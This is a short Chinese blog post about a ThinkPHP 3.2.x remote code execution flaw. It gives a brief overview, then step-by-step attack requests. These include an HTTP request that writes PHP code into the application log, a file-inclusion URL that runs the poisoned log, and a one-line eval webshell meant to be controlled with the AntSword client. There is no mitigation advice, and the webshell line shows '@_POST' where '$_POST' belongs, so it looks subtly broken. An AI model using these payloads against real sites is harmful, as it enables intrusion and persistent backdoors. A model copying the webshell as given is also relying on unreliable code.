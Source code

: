 ```yaml
---
layout: post
title: 'ThinkPHP3.2.x RCE漏洞'
subtitle: 'ThinkPHP3.2.x RCE漏洞'
date: 2021-08-03
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全
---
```


### 漏洞概述

近日，默安玄甲实验室发现网络上出现针对ThinkPHP3.2的远程代码执行漏洞。该漏洞是在受影响的版本中，业务代码中如果模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

### 漏洞攻击

> 攻击方式：

请求数据包：

	GET /index.php?m=--><?=phpinfo();?> HTTP/1.1
	Host: 127.0.0.1
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Accept-Language: en-GB,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: close
	Cookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;
	Upgrade-Insecure-Requests: 1

日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：

	\Application\Runtime\Logs\Common\21_08_03.log

日志文件内容：

![](https://1024861435.github.io/assets/img/ThinkPHP3.2.x RCE漏洞1.png)

构造攻击请求：

	url/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_03.log

> 可以写入一句话木马

构造POC：
	url/index.php?m=Home&c=Index&a=index&C=<?=eval(@_POST[1]);?>

蚁剑连接：

	url/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_03.log




